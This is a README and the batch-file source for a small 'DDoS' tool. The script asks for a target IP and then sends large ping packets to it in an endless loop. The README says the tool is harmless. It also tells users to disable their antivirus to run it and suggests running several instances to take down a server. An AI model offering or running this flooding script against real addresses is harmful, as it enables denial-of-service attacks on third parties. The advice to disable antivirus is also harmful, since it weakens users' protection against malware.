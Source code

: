 # DDOS-Nzen2
A small DDos program that will (In theory) take down your old 2003 laptop.
It won't harm anyone, nor anything. 
Idk how you would take down a server with this, maybe running multiple instances of it...

Antiviruses DO flag this as a virus/threat, but in reality it's because I have no license with this.
If you do not believe me, just don't run the program!
I mean, It's not like it does anything.

If you do want to run the program, (Maybe benchmark a bunch of chinese off-brand Rasberry-Pie network adapters,
Just disable your antivirus while you run it.




:DOCUMENTATION:
This program was written in batch, and recompiled with BtE.

The first chunk of the code is a segment of the BtE API.
Random UUids coupled with some strings.

Next chunk is the fake loading screen, which I just added to make
the whole thing look more organized.
It echos a started message, (To log.txt) 
and then echos ping localhost, (To log.txt)
then there is a textbook set variable command, (Which then is echoed to log.txt)
and then a few danger messages,
The ddos actually happens.
It repeat ping requests that will down the shields on your 2003 Arsenel Bird.








Code:

::[Bat To Exe Converter]
::
::YAwzoRdxOk+EWAnk
::fBw5plQjdG8=
::YAwzuBVtJxjWCl3EqQJgSA==
::ZR4luwNxJguZRRnk
::Yhs/ulQjdF+5
::cxAkpRVqdFKZSjk=
::cBs/ulQjdF+5
::ZR41oxFsdFKZSDk=
::eBoioBt6dFKZSDk=
::cRo6pxp7LAbNWATEpCI=
::egkzugNsPRvcWATEpCI=
::dAsiuh18IRvcCxnZtBJQ
::cRYluBh/LU+EWAjk
::YxY4rhs+aU+JeA==
::cxY6rQJ7JhzQF1fEqQJQ
::ZQ05rAF9IBncCkqN+0xwdVs0
::ZQ05rAF9IAHYFVzEqQJQ
::eg0/rx1wNQPfEVWB+kM9LVsJDGQ=
::fBEirQZwNQPfEVWB+kM9LVsJDGQ=
::cRolqwZ3JBvQF1fEqQJQ
::dhA7uBVwLU+EWDk=
::YQ03rBFzNR3SWATElA==
::dhAmsQZ3MwfNWATElA==
::ZQ0/vhVqMQ3MEVWAtB9wSA==
::Zg8zqx1/OA3MEVWAtB9wSA==
::dhA7pRFwIByZRRnk
::Zh4grVQjdCyDJGyX8VAjFB5QRRCNAE+/Fb4I5/jHwfCCrB9QcMYQS8L806CyA+8e+kzocJIb02hmvO8DH1VdZhfL
::YB416Ek+ZW8=
::
::
::978f952a14a936cc963da21a135fa983
@echo off
cls
title DDos Tool Nzen2- Loading
echo Started: >> log.txt
ping localhost >> log.txt
title DDos Tool Nzen2- Press anything to continue
pause
title Waiting input
goto PreAttack

:PreAttack
cls
echo ---Enter Attack IP---
set /p AttackIP= 
Echo Attack IP set to %AttackIP%
echo Attack IP set! >> log.txt
echo IP: >> log.txt
echo %AttackIP% >> log.txt
pause
goto Attacklaunch

:Attacklaunch
cls
echo FINAL CHECK: ARE YOU SURE
pause
title Launcher
goto Attack

:Attack
cls
pause goto DDos

:DDos 
:loop
ping %AttackIP% -l 65500 -w 1 -n 1
goto :loop
